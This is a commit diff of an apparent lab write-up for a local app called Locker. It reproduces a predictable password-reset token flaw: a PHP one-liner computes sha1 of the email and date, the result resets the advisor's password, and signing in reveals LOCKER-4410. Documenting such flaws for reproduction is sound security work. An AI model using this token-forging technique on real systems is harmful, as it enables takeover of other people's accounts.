

Before and after one commit to SirBLANKO/Locker_Patched, a Markdown page: writeup.md, the part around the change. Rendered like a GitHub page.

Commit message:
Revise password reset instructions in writeup.md
Updated instructions for calculating the advisor's token and removed unnecessary steps.

```diff
--- a/writeup.md
+++ b/writeup.md
@@ -15,8 +15,7 @@ Use the original application with a fresh, disposable database. These steps chan
 1. From the original Locker folder, run:
    DATABASE_PATH=./data/reproduction.db php -S 127.0.0.1:3000 -t public public/router.php
 2. Open http://localhost:3000.
-3. Do not click “Forgot password” or sign in.
-4. Calculate the advisor’s token:
+4. Calculate the advisor’s token in cmd:
    php -r 'echo sha1("advisor@campus.edu|" . gmdate("Y-m-d")), PHP_EOL;'
 5. Open http://localhost:3000/reset, enter advisor@campus.edu, paste the calculated token, and set the password to Updated123!.
 6. Sign in as advisor@campus.edu with Updated123! and observe the advisor hold containing LOCKER-4410.
```
